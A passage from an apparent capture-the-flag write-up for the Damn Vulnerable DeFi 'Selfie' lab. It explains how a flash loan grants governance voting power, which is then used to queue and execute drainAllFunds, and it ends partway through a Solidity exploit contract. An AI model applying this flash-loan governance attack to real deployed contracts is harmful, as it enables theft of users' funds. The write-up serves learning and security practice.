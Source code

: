 In the case of the `drainAllFunds` function, if the `onlyGovernance` modifier can be passed, there is a possibility that the balance can be stolen using the `transfer` function of the tokenPool implemented inside.

``` solidity
function executeAction(uint256 actionId) external payable {
        require(_canBeExecuted(actionId), "Cannot execute this action");
        
        GovernanceAction storage actionToExecute = actions[actionId];
        actionToExecute.executedAt = block.timestamp;

        actionToExecute.receiver.functionCallWithValue(
            actionToExecute.data,
            actionToExecute.weiAmount
        );

        emit ActionExecuted(actionId, msg.sender);
  }
```
When the `executeAction` function implemented inside the `simpleGovernance` contract is called, the `functionCallWithValue` command can be executed with the `receiver` address based on the values of each action structure configured in this contract, so that the available functions of other contracts can be called from this Governance contract address. It can be used as an attack vector.


## Solve
In order to steal the tokenPool’s assets, the attacker uses a combination of the previous vulnerabilities to attack. First, the attacker calls the flashLoan function of the flashLoan contract to loan the entire balance to the token pool. Implement a function to handle when the `receiveTokens` function call is executed in the process of acquiring sufficient balance. Because you have a sufficient balance, you meet the conditions to be eligible for governance voting rights. (It should be greater than half of the total balance.) During the flashLoan process, you must ensure that you do not panic and obtain the right to vote for governance.

To call the `executeAction` function in the governance process, adjust the transaction to pass 2 days and call the `drainAllFunds` function. If this happens, since it is a contract with actual governance voting rights, function calls are possible and the balance can be stolen.

## Exploit Contract
``` Solidity
pragma solidity ^0.8.0;

import "../DamnValuableTokenSnapshot.sol";
import "./SimpleGovernance.sol";
import "./SelfiePool.sol";

contract SelfieExploit {

    SimpleGovernance public governance;
    SelfiePool public pool;
    
    uint256 public actionId;

    constructor(address gvContract, address poolContract) public {
        governance = SimpleGovernance(gvContract);
        pool = SelfiePool(poolContract);    }


    function receiveTokens(DamnValuableTokenSnapshot token, uint256 amount) public returns(uint256){
        token.snapshot();
        token.transfer(msg.sender, amount);
        actionId = governance.queueAction(
                    address(pool), 
```